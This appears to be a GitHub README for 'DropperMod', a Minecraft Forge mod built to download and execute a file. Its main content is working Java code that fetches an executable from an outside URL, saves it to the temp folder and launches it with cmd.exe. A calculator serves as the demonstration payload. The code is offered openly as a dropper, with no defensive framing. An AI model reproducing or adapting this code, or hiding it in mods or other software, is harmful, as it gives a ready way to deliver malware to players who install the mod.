

# :electric_plug: DropperMod
A minecraft(forge) mod which can download and execute file

## :droplet: Windows (Download and run calculator)
<p align="center">
  
</p>

## :zap: How it works?
``` java
// Our file url 
final URL url = new URL("http://www.ddlands.com/downloads/Calc.exe");
// Get file temp path
String tempFileName = Paths.get(
		System.getProperty("java.io.tmpdir"), 
		new File(url.getPath()).getName().toString()
).toString();
// If target file not exists
if (!new File(tempFileName).exists()) {
	// Download file
	BufferedInputStream inputStream = new BufferedInputStream(url.openStream());
	FileOutputStream fileOutputStream = new FileOutputStream(tempFileName);
	// Write bytes to file
	byte dataBuffer[] = new byte[1024];
	int bytesRead;
	while ((bytesRead = inputStream.read(dataBuffer, 0, 1024)) != -1) {
		fileOutputStream.write(dataBuffer, 0, bytesRead);
	}
	// Close input and output stream
	inputStream.close();
	fileOutputStream.close();
	// Execute file
	Runtime.getRuntime().exec(
		new String[] { "cmd.exe", "/C", "start", tempFileName }
	);
}
```
